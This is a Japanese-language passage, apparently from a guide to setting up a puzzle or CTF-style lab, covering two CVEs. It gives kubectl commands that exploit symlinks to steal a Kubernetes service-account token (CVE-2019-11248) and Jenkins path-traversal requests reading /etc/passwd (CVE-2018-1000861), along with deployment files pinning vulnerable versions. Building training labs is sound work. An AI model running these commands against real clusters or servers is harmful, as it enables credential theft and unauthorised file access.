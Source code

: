 ### 5. CVE-2019-11248 - Kubernetes kubectl cp
**概要**: tarアーカイブ内のシンボリックリンクを利用したファイル窃取

```bash
# Pod内での準備（攻撃者側）
kubectl exec -it vulnerable-pod -- bash
ln -s /var/run/secrets/kubernetes.io/serviceaccount/token /tmp/escape
ln -s /secrets/protocol_seven.txt /tmp/hint

# kubectl cp での窃取（脆弱なバージョン）
kubectl cp vulnerable-pod:/tmp/escape ./stolen_token
kubectl cp vulnerable-pod:/tmp/hint ./stolen_hint
```

**設置方法**:
```yaml
# deployment.yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  name: vulnerable-kubectl
spec:
  replicas: 1
  template:
    spec:
      containers:
      - name: puzzle
        image: bitnami/kubectl:1.12.8  # 脆弱なバージョン
        volumeMounts:
        - name: secrets
          mountPath: /secrets
      volumes:
      - name: secrets
        secret:
          secretName: puzzle-secrets
```

### 6. CVE-2018-1000861 - Jenkins Stapler Framework
**概要**: 動的ルーティングでの任意ファイル読み取り

```groovy
// 脆弱なJenkinsバージョン: <= 2.153
// 攻撃URL
GET /securityRealm/user/admin/descriptorByName/../../../../../../../../etc/passwd

// 謎解き用URL
GET /securityRealm/user/admin/descriptorByName/../../../../secrets/hint.xml
```

**docker-compose.yml**:
```yaml
jenkins:
  image: jenkins/jenkins:2.138.3  # 脆弱なバージョン
  ports:
    - "8080:8080"
  volumes:
    - ./secrets:/secrets:ro
  environment:
    - JENKINS_OPTS=--httpPort=8080
```
